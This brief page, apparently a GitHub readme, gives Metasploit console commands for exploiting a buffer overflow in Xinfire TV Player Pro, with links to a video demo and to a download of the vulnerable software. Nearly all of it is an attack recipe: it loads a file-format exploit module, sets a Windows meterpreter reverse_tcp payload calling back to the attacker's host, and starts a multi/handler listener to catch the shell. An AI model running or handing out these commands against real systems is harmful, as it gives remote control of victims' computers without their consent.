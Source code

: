 use exploit/windows/fileformat/xinfire_tv_player
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit

Video demo Buffer Overflow Xinfire TV Player Pro
https://youtu.be/ivBPLheOWy4
downloads software
https://download.cnet.com/Xinfire-TV-Player-Pro/3000-13632_4-75986988.html
